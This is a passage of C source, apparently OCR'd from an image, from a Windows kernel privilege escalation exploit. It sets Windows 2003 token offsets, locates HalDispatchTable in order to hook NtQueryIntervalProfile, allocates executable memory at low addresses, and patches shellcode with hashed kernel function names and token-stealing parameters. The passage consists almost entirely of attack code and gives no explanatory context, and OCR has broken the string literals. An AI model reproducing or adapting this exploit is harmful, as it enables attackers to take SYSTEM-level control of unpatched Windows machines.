 case 2:                                                //Windows2003
SystemId = 4;
TokenOffset = 0xd8;
break;

default:
SystemId = 4;
TokenOffset = 0xc8;
}

hKernel = LoadLibrary(KernelName);
if(hKernel == NULL)
ErrorQuit("LoadLibrary failed.
");

printf("Load Base:%x
", (ULONG)hKernel);
HDTOffset = (ULONG)GetProcAddress(hKernel, "HalDispatchTable");
HDTOffset += KernelBase - (ULONG)hKernel;
printf("HalDispatchTable Offset:%x
", HDTOffset);
HookAddress = (ULONG)(HDTOffset + 4);
printf("NtQueryIntervalProfile function entry address:%x
", HookAddress);

AllocationSize = 0x1000;
pStoreBuffer = (PULONG)0x7fb0;
if(ZwAllocateVirtualMemory((HANDLE)0xffffffff, &pStoreBuffer, 0, &AllocationSize,
MEM_RESERVE | MEM_COMMIT | MEM_TOP_DOWN, PAGE_EXECUTE_READWRITE))
ErrorQuit("ZwAllocateVirtualMemory failed.
");

pRestoreBuffer = malloc(0x100);

memset(pStoreBuffer, 0x90, AllocationSize);

pShellcode = (PULONG)shellcode;
for(k = 0; pShellcode[k++] != 0x90cccc90; )
;

for(j = 0; kfunctions[j][0] != 'x0'; j++)
buf[j] = ComputeHash(kfunctions[j]);

buf[j++] = pbi.InheritedFromUniqueProcessId;
buf[j++] = SystemId;
buf[j++] = (ULONG)pRestoreBuffer;
buf[j++] = HookAddress;
buf[j++] = 0x04;
buf[j++] = TokenOffset;

memcpy((char *)(pShellcode + k), (char *)buf, j * 4);
memcpy((PUCHAR)0x8000, shellcode, sizeof(shellcode) - 1);

if(WSAStartup(MAKEWORD(2, 2), &wsad) != 0)
ErrorQuit("WSAStartup failed.
");
